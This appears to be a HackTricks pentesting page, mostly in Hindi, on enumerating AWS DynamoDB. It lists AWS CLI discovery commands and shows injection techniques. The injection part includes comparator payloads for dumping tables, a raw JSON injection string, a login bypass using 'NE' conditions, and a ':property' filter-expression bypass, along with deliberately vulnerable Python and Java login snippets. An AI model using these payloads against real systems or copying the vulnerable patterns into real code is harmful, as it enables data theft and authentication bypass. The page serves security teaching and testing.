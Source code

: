 # AWS - DynamoDB Enum

{{#include ../../../banners/hacktricks-training.md}}

## DynamoDB

### Basic Information

Amazon DynamoDB को AWS द्वारा एक **पूर्ण रूप से प्रबंधित, सर्वर रहित, की-मान NoSQL डेटाबेस** के रूप में प्रस्तुत किया गया है, जो उच्च प्रदर्शन वाले अनुप्रयोगों को उनके आकार की परवाह किए बिना शक्ति प्रदान करने के लिए तैयार किया गया है। यह सेवा मजबूत सुविधाओं की गारंटी देती है, जिसमें अंतर्निहित सुरक्षा उपाय, निरंतर बैकअप, कई क्षेत्रों में स्वचालित प्रतिकृति, एकीकृत इन-मेमोरी कैशिंग, और सुविधाजनक डेटा निर्यात उपयोगिताएँ शामिल हैं।

DynamoDB के संदर्भ में, पारंपरिक डेटाबेस स्थापित करने के बजाय, **तालिकाएँ बनाई जाती हैं**। प्रत्येक तालिका को **तालिका की प्राथमिक कुंजी** के एक अभिन्न घटक के रूप में **पार्टीशन कुंजी** के विनिर्देशन की आवश्यकता होती है। यह पार्टीशन कुंजी, जो मूलतः एक **हैश मान** है, वस्तुओं की पुनर्प्राप्ति और विभिन्न होस्टों के बीच डेटा के वितरण में महत्वपूर्ण भूमिका निभाती है। यह वितरण डेटाबेस की स्केलेबिलिटी और उपलब्धता बनाए रखने के लिए महत्वपूर्ण है। इसके अतिरिक्त, डेटा संगठन को और अधिक परिष्कृत करने के लिए **सॉर्ट कुंजी** को शामिल करने का विकल्प भी है।

### Encryption

डिफ़ॉल्ट रूप से, DynamoDB एक KMS कुंजी का उपयोग करता है जो **Amazon DynamoDB की है,** न कि AWS प्रबंधित कुंजी जो कम से कम आपके खाते की है।

<figure><img src="https://lh4.googleusercontent.com/JjtNS7aA-_GRMgZb4v93jWEQJi6DQdUPq0FEpzZPdeyCeNoG05p0NJiV9Zs-ULs_-Tfjmx0W1ZgsE2Ui2ljo7D-1a87Xny-gpLVQO0XmXdFoph9ci1RepbVNwaCe9oPruEZSEDxGTxF5dIv6pW1WpT6kWA=s2048" alt=""><figcaption></figcaption></figure>

### Backups & Export to S3

**तालिका बैकअप** के निर्माण को **अनुसूचित** करना या **मांग पर** बनाना संभव है। इसके अलावा, एक तालिका के लिए **पॉइंट-इन-टाइम रिकवरी (PITR)** सक्षम करना भी संभव है। पॉइंट-इन-टाइम रिकवरी आपके DynamoDB डेटा के निरंतर **बैकअप** प्रदान करती है **35 दिनों** के लिए ताकि आप आकस्मिक लेखन या हटाने के संचालन से सुरक्षा कर सकें।

**S3** में तालिका के **डेटा का निर्यात** करना भी संभव है, लेकिन तालिका को **PITR सक्षम** होना चाहिए।

### GUI

स्थानीय Dynamo सेवाओं के लिए एक GUI है जैसे [DynamoDB Local](https://aws.amazon.com/blogs/aws/dynamodb-local-for-desktop-development/), [dynalite](https://github.com/mhart/dynalite), [localstack](https://github.com/localstack/localstack), आदि, जो उपयोगी हो सकते हैं: [https://github.com/aaronshaf/dynamodb-admin](https://github.com/aaronshaf/dynamodb-admin)

### Enumeration
```bash
# Tables
aws dynamodb list-tables
aws dynamodb describe-table --table-name <t_name> #Get metadata info
## The primary key and sort key will appear inside the KeySchema field

#Check if point in time recovery is enabled
aws dynamodb describe-continuous-backups \
--table-name tablename

# Backups
aws dynamodb list-backups
aws dynamodb describe-backup --backup-arn <arn>
aws dynamodb describe-continuous-backups --table-name <t_name>

# Global tables
aws dynamodb list-global-tables
aws dynamodb describe-global-table --global-table-name <name>

# Exports
aws dynamodb list-exports
aws dynamodb describe-export --export-arn <arn>

# Misc
aws dynamodb describe-endpoints #Dynamodb endpoints
```
### अनधिकृत पहुँच

{{#ref}}
../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md
{{#endref}}

### प्रिवेस्क

{{#ref}}
../aws-privilege-escalation/aws-dynamodb-privesc.md
{{#endref}}

### पोस्ट एक्सप्लोइटेशन

{{#ref}}
../aws-post-exploitation/aws-dynamodb-post-exploitation.md
{{#endref}}

### स्थिरता

{{#ref}}
../aws-persistence/aws-dynamodb-persistence.md
{{#endref}}

## DynamoDB इंजेक्शन

### SQL इंजेक्शन

DynamoDB डेटा तक पहुँचने के लिए **SQL सिंटैक्स** के साथ तरीके हैं, इसलिए, सामान्य **SQL इंजेक्शन भी संभव हैं**।

{{#ref}}
https://book.hacktricks.xyz/pentesting-web/sql-injection
{{#endref}}

### NoSQL इंजेक्शन

DynamoDB में विभिन्न **शर्तें** डेटा प्राप्त करने के लिए उपयोग की जा सकती हैं, जैसे कि एक सामान्य NoSQL इंजेक्शन में यदि **डेटा प्राप्त करने के लिए अधिक शर्तों को जोड़ना संभव है** तो आप छिपा हुआ डेटा प्राप्त कर सकते हैं (या पूरी तालिका को डंप कर सकते हैं)।\
आप यहाँ DynamoDB द्वारा समर्थित शर्तें पा सकते हैं: [https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Condition.html](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Condition.html)

ध्यान दें कि **विभिन्न शर्तें** समर्थित हैं यदि डेटा **`query`** के माध्यम से या **`scan`** के माध्यम से पहुँचाया जा रहा है।

> [!NOTE]
> वास्तव में, **Query** क्रियाओं को काम करने के लिए **प्राथमिक** कुंजी में **शर्त "EQ" (बराबर)** निर्दिष्ट करने की आवश्यकता होती है, जिससे यह **NoSQL इंजेक्शन के लिए कम संवेदनशील** हो जाता है (और ऑपरेशन को बहुत सीमित भी बनाता है)।

यदि आप **तुलना** को बदल सकते हैं या नए जोड़ सकते हैं, तो आप अधिक डेटा प्राप्त कर सकते हैं।
```bash
# Comparators to dump the database
"NE": "a123" #Get everything that doesn't equal "a123"
"NOT_CONTAINS": "a123" #What you think
"GT": " " #All strings are greater than a space
```
{{#ref}}
https://book.hacktricks.xyz/pentesting-web/nosql-injection
{{#endref}}

### कच्चा Json इंजेक्शन

> [!CAUTION]
> **यह भेद्यता dynamodb Scan Filter पर आधारित है जो अब अप्रचलित है!**

**DynamoDB** **Json** ऑब्जेक्ट्स को DB के अंदर डेटा **खोजने** के लिए स्वीकार करता है। यदि आप पाते हैं कि आप खोजने के लिए भेजे गए json ऑब्जेक्ट में लिख सकते हैं, तो आप DB का डंप बना सकते हैं, सभी सामग्री।

उदाहरण के लिए, एक अनुरोध में इंजेक्ट करना जैसे:
```bash
'{"Id": {"ComparisonOperator": "EQ","AttributeValueList": [{"N": "' + user_input + '"}]}}'
```
एक हमलावर कुछ इस तरह इंजेक्ट कर सकता है:

`1000"}],"ComparisonOperator": "GT","AttributeValueList": [{"N": "0`

"EQ" स्थिति को ठीक करें जो ID 1000 के लिए खोज कर रहा है और फिर सभी डेटा के लिए देख रहा है जिनका Id स्ट्रिंग 0 से बड़ा है, जो कि सभी है।

एक **कमजोर उदाहरण लॉगिन का** हो सकता है:
```python
scan_filter = """{
"username": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
},
"password": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
}
}
""" % (user_data['username'], user_data['password'])

dynamodb.scan(TableName="table-name", ScanFilter=json.loads(scan_filter))
```
यह निम्नलिखित के प्रति संवेदनशील होगा:
```
username: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
password: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
```
### :property Injection

कुछ SDKs एक स्ट्रिंग का उपयोग करने की अनुमति देते हैं जो प्रदर्शन किए जाने वाले फ़िल्टरिंग को इंगित करती है जैसे:
```java
new ScanSpec().withProjectionExpression("UserName").withFilterExpression(user_input+" = :username and Password = :password").withValueMap(valueMap)
```
आपको यह जानना आवश्यक है कि DynamoDB में **फिल्टर एक्सप्रेशंस** में **वस्तुओं** को स्कैन करते समय एक विशेषता **मान** को **बदलने** के लिए, टोकन को **`:`** वर्ण से **शुरू** होना चाहिए। ऐसे टोकन को **रनटाइम** में वास्तविक **विशेषता मान** से **बदला** जाएगा।

इसलिए, पिछले की तरह एक लॉगिन को इस तरह से बायपास किया जा सकता है:
```bash
:username = :username or :username
# This will generate the query:
# :username = :username or :username = :username and Password = :password
# which is always true
```
{{#include ../../../banners/hacktricks-training.md}}
